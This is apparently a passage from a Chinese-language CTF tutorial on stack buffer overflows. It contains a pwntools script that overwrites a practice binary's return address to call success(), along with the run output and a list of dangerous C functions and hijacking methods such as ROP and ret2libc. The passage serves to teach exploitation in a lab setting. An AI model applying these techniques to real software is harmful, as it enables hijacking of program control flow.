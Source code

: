 ```py
##coding=utf8
from pwn import *
## 构造与程序交互的对象
sh = process('./stack_example')
success_addr = 0x0804843b
## 构造payload
payload = 'a' * 0x14 + 'bbbb' + p32(success_addr)
sh.sendline(payload)
sh.interactive()

# 输出
cuc@cuc-VirtualBox:~/ctf$ python2 stack_example.py
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/cuc/.cache/.pwntools-cache-2.7/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] A newer version of pwntools is available on pypi (4.2.1 --> 4.2.2).
    Update with: $ pip install -U pwntools
[+] Starting local process './stack_example': pid 5656
;\x84\x04
[*] Switching to interactive mode
You Have already controlled it.
[*] Got EOF while reading in interactive

```
从输出可以看出，执行成功执行了```success()```。

---


## 栈溢出利用方法

---

上面的例子实际上已经展现了栈溢出的几个重要的步骤
- 寻找危险函数
- 确定填充长度

常见的危险函数有：
- 输入：gets、scanf、vscanf
- 输出：sprintf
- 字符串相关：strcpy、strcat、bcopy

确定填充长度一般借助IDA PRO、gdb等工具并根据具体的覆盖需求进行计算

---

利用栈溢出的基本思想就是通过覆盖函数的返回地址劫持程序控制流，主要方法如下：
- shellcode
- Return2libc
- ROP(Return Oriented Programming)
- Hijack GOT

--- 